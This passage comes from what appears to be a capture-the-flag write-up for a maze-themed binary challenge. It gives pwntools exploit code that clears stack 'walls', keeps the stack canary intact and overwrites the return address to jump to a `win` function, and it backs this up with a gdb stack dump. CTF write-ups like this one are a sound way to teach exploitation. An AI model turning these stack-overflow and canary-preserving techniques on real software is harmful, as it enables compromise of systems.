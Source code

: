 Next, we just kick down the walls and move to the lower right, this is at the end of the allocated buffer for the maze and not far from the return address.

```python
# lets bust out of here, return to the east
p.sendlineafter(b'): ', b'x')
p.sendlineafter(b'?\n', 0x20 * b'\xff')
p.sendlineafter(b'): ', b'd')
p.sendlineafter(b'): ', b'd')
p.sendlineafter(b'): ', b'x')
p.sendlineafter(b'?\n', 0x20 * b'\xff')
p.sendlineafter(b'): ', b'd')
p.sendlineafter(b'): ', b'x')

# 8 bytes before the return address FTW!
p.sendlineafter(b'?\n', p64(0) + p64(binary.sym.win))
p.sendlineafter(b'): ', b'q')
p.stream()
```

Lastly, move East (`0x20` bytes at a time).  Each time before we move we write `0x20 * b'\xff'` bytes to clear out the walls, _except_ for the block of 32-bytes that contains the canary.

Luckily, the correct nibble is set in that block to allow another move East (it's a stack address at that location with a 50/50 chance unblocking East with ASLR.  No checks; sometimes this hangs, just rerun.  In the [pwn/sir-marksalot](../sir-marksalot) writeup I'll cover this in more detail and put in checks).

Finally after a few more moves we're 8 bytes from the return address, so 8 bytes of garbage, then the location of the `win` function and we get the flag. 

End of stack just before `q` is sent:

```
0x00007fff68ff78b0│+0xc7f0: 0xffffffffffffffff
0x00007fff68ff78b8│+0xc7f8: 0xffffffffffffffff
0x00007fff68ff78c0│+0xc800: 0xffffffffffffffff
0x00007fff68ff78c8│+0xc808: 0xffffffffffffffff
0x00007fff68ff78d0│+0xc810: 0x0000000000000200
0x00007fff68ff78d8│+0xc818: 0xeff9658e4eccb100
0x00007fff68ff78e0│+0xc820: 0x0000000000401380  →  "Oh no! The ground gives way and you fall into a da[...]"
0x00007fff68ff78e8│+0xc828: 0x00007fff68ff7920  →  0x20707520706d000a
0x00007fff68ff78f0│+0xc830: 0xffffffffffffffff
0x00007fff68ff78f8│+0xc838: 0xffffffffffffffff
0x00007fff68ff7900│+0xc840: 0xffffffffffffffff
0x00007fff68ff7908│+0xc848: 0xffffffffffffffff
0x00007fff68ff7910│+0xc850: 0x0000000000000000
0x00007fff68ff7918│+0xc858: 0x0000000000400fa0  →  <win+0> push rbp
```

This correlates with the last block of code above.  Basically, write out `0xff`s, then move East to block with canary, then move East again preserving the block with the canary, then write out `0xff`s again, move East, then write out ROP chain.
